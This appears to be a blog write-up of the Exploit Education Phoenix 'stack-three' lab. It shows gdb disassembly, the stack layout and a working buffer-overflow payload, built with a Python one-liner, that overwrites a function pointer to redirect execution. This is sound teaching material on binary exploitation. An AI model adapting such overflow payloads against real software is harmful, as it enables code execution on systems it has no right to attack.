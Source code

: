 ```yaml
---
layout: post
title: Stack Three Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
description: A comprehensive writeup that helps to understand Stack Three exercise stack-overflow vulnerability with learning resources.
---
```


If you're learning and writing binary exploits, I would strongly recommend you to take [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/) course by `Xeno Kovah`. They cover a wide variety of learning assembly instructions which will be really helpful to understand the exploits.

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

Previous Writeup: 
1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)
3. [Stack Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/26/exploit-education-stack-two-exercise-writeup.html)

### Quick Overview

Similar to Stack Two, Stack Three exercise motive is to smash the stack to modify other variables in the stack to a `hex value` and technically overwrite `function pointer` in the stack. Similar to `gets` in Stack Zero, `strcpy` function is unsafe that doesn't have bounds check, it accepts memory address to write but doesn't care about overwriting other declared function pointer in stack. If you take closer look at the struct which isn't dynamically being allocated by `malloc` function, so probably the struct which contains both `char buffer[64]` and `volatile int *fp` function pointer stays in main stackframe. This overwritten function pointer will be further used to invoke in later part of the program.

### Disassemble

Disassembling the code will get you overall idea behind the stack-three code, One can use `gdb ./stack-three` to start debugging it in runtime.

1. `gdb ./stack-three`
2. Type `disassemble main` to get the disassembled code (assembly)

```assembly
   0x00000000004006b5 <+0>:     push   rbp
   0x00000000004006b6 <+1>:     mov    rbp,rsp
   0x00000000004006b9 <+4>:     sub    rsp,0x60
   0x00000000004006bd <+8>:     mov    DWORD PTR [rbp-0x54],edi
   0x00000000004006c0 <+11>:    mov    QWORD PTR [rbp-0x60],rsi
   0x00000000004006c4 <+15>:    mov    edi,0x4007d8
   0x00000000004006c9 <+20>:    call   0x4004f0 <puts@plt>
   0x00000000004006ce <+25>:    mov    QWORD PTR [rbp-0x10],0x0
   0x00000000004006d6 <+33>:    lea    rax,[rbp-0x50]
   0x00000000004006da <+37>:    mov    rdi,rax
   0x00000000004006dd <+40>:    call   0x4004e0 <gets@plt>
   0x00000000004006e2 <+45>:    mov    rax,QWORD PTR [rbp-0x10]
   0x00000000004006e6 <+49>:    test   rax,rax
   0x00000000004006e9 <+52>:    je     0x40071d <main+104>
   0x00000000004006eb <+54>:    mov    rax,QWORD PTR [rbp-0x10]
   0x00000000004006ef <+58>:    mov    rsi,rax
   0x00000000004006f2 <+61>:    mov    edi,0x400828
   0x00000000004006f7 <+66>:    mov    eax,0x0
   0x00000000004006fc <+71>:    call   0x4004d0 <printf@plt>
   0x0000000000400701 <+76>:    mov    rax,QWORD PTR [rip+0x200418]        # 0x600b20 <stdout>
   0x0000000000400708 <+83>:    mov    rdi,rax
   0x000000000040070b <+86>:    call   0x400500 <fflush@plt>
   0x0000000000400710 <+91>:    mov    rdx,QWORD PTR [rbp-0x10]
   0x0000000000400714 <+95>:    mov    eax,0x0
   0x0000000000400719 <+100>:   call   rdx
   0x000000000040071b <+102>:   jmp    0x400727 <main+114>
   0x000000000040071d <+104>:   mov    edi,0x400848
   0x0000000000400722 <+109>:   call   0x4004f0 <puts@plt>
   0x0000000000400727 <+114>:   mov    edi,0x0
   0x000000000040072c <+119>:   call   0x400510 <exit@plt>
```

If you carefully check the source, you might miss `complete_level` in the above disassembled code. You can go ahead and type `disassemble complete_level` in the gdb prompt,

```assembly
   0x000000000040069d <+0>:     push   rbp
   0x000000000040069e <+1>:     mov    rbp,rsp
   0x00000000004006a1 <+4>:     mov    edi,0x400790
   0x00000000004006a6 <+9>:     call   0x4004f0 <puts@plt>
   0x00000000004006ab <+14>:    mov    edi,0x0
   0x00000000004006b0 <+19>:    call   0x400510 <exit@plt>
```

Before taking a look at the code, if you disassembled the stack-three using gdb to view the assembly instruction, you may notice the puts, fflush, exit and gets function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/stack-three, brought to you by https://exploit.education` message via Puts (aka printf) method
3. Set `locals.fp` variable to `zero` or `0x00` in hex
4. Strcpy `locals.buffer` variable filled by `gets` function
5. Verify `locals.fp` is not `NULL` (cmd instruction)
6. Use `locals.fp` function pointer to invoke the corresponding function
5. Use puts(aka Printf) method to greet the user again with decision
6. Finally exits the program with `exit(0)` system call instead of returning to the main function invoker

### Primary Goal

The primary goal of this exercise is to make you familiar to overwrite function pointer with your own function pointer and therefore redirecting the program flow to achieve code execution within the binary/program. In ideal exploit world, you may overwrite the function pointer and redirect to `system` function call to achieve remote code execution and [this](https://securitylab.github.com/research/now-you-c-me-part-two/) blog post good example of reflecting this goal. In this exercise, you might want to overwrite the function pointer `locals.fp` with `complete_level` function memory address.

### Memory Allocation

As you see that the `locals` struct isn't dynamically allocated, they are allocated in the stack frame same as `main` function gets executes. The main function starts executing my pushing `$rbp` to stack at `0x7fffffffe660` and then `rsp` to `$rbp-0x60` (0x7fffffffe600) as expected the stack grows from top (higher memory address) to bottom (lower memory address).

![Stack Memory Layout from $rbp till $rsp](/assets/media/exploit-education-phoenix-stack-three-rbp.jpg)

You can see that `locals.buffer` (64 bytes) gets written at `$rbp-0x50` i.e `0x7fffffffe610` and `locals.fp` integer variable (4 bytes) at `rbp-0x10` i.e `0x7fffffffe650`. Now that you got the overall idea of the memory layout of the stack, you can now go ahead blow up the stack to overwrite `locals.fp`. If you play around with these memory layout behaviour, you can note that the char `buffer` variable writes from `$rbp-0x50` towards `$rbp-0x10`.

### Exploit

As previously discussed `locals.buffer` and `locals.fp` are allocated nearby each other in stack. So, if your input of 64 characters (example: 64 * 'A') wouldn't overrite the `locals.fp` variable, but if you do the same with 65 characters, you have succesfully overwritten `locals.fp` variable. However, our challenge is to overwrite `locals.fp` variable with `complete_level` function memory address. So, How do i get the `complete_level` function loaded memory address? Simple, use gdb disassemble `disassemble complete_level` command and note down the starting `rbp` address aka `0x40069d` (ignore the padding zeros).

If you try generating the payload simply  `(A * 64) + '\x40\x06\x9d'`, this would represent in the memory as `64 'A's & 0x40069d` 😵. Remember [Little Endianness](https://en.wikipedia.org/wiki/Endianness) ?, Yes Intel or AT&T syntax follows Little Endianness, so the representation should be in reverse order as `'A'*64 + '\x9d\x06\x40'`.

![Stack Memory Layout](/assets/media/exploit-education-phoenix-stack-three-gdb.jpg)

### Result

`> r <<< $(python -c "print('A'*64 + '\x9d\x06\x40')")` in gdb prompt.

```assembly
(gdb) r 
(gdb) r <<< $(python -c "print('A'*64 + '\x9d\x06\x40')")
Starting program: /opt/phoenix/amd64/stack-three <<< $(python -c "print('A'*64 + '\x9d\x06\x40')")
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
[Inferior 1 (process 375) exited normally]
Py
```

There you go! 🎉 You've officially `pwned` the `binary` and possibly you could control the program flow and may 
eventually perform remote code execution in the system. 🪲

![buffer-overflow-meme](/assets/media/what-does-that-mean-i-have-a-buffer-overflow-vulnerability.png)

### Source and Reference:

1. Stack Three Exercise: [Exploit Education](https://exploit.education/phoenix/stack-three/)
2. [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/)

### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
